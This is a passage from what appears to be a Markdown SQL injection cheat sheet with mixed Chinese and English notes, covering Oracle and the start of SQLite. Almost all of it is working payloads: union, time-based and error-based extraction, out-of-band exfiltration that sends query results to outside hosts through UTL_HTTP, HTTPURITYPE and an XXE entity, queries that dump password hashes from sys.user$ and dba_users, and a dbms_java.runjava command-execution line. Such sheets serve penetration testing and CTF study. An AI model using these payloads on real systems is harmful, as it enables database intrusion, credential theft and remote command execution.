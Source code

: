     - `UNION SELECT 1, 'aa', null FROM dual`
- Time Based
    - `dbms_pipe.receive_message(('a'),10)`
        - `SELECT CASE WHEN (CONDITION_HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Error Based
    - `CTXSYS.DRITHSX.SN`
        - `SELECT * FROM news WHERE id=1 and CTXSYS.DRITHSX.SN(user, (SELECT banner FROM v$version WHERE rownum=1))=1`
    - `utl_inaddr.get_host_name`
        - `and 1=utl_inaddr.get_host_name((SQL in HERE))`
        - 版本 >=11g，需要超級用戶或授予網路權限的用戶才能用
    - `dbms_xdb_version.checkin`
        - `and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null`
    - `dbms_xdb_version.makeversioned`
        - `and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null`
    - `dbms_xdb_version.uncheckout`
        - `and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null`
    - `dbms_utility.sqlid_to_sqlhash`
        - `and (SELECT dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null`
- Out of band
    - `UTL_HTTP.request('http://kaibro.tw/'||(select user from dual))=1`
    - `SYS.DBMS_LDAP.INIT()`
    - `utl_inaddr.get_host_address()`
    - `HTTPURITYPE`
        - `SELECT HTTPURITYPE('http://30cm.club/index.php').GETCLOB() FROM DUAL;`
    - `extractvalue()` XXE
        - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT xxxx)||'.oob.kaibro.tw/"> %remote;]>'),'/l') FROM dual`
        - 新版已 patch

- users
    - `select username from all_users`
        - lists all users of the database
    - `select name, password from sys.user$`
    - `select username,password,account_status from dba_users`

- 特殊用法
    - `DBMS_XMLGEN.getXML('select user from dual')`
    - `dbms_java.runjava('com/sun/tools/script/shell/Main -e "var p = java.lang.Runtime.getRuntime().exec(''$cmd'');"')`
        - Java code execution
## SQLite

- 子字串：
    - `substr(“abc",1,1)   =>   'a'`
- Ascii function:
    - `unicode('d') => 100`
- legth
    - `length('ab') => 2`
- Concatenation
    - `||`
    - `'a' || 'b' => 'ab'` 
- Time Delay
    - `randomblob(100000000)`
- 空白字元
    - `0A 0D 0C 09 20`
- Case when
    - SQLite 沒有 `if`
    - 可以用 `Case When ... Then ...` 代替
    - `case when (條件) then ... else ... end`
- 註解
    - `--`
- 爆表名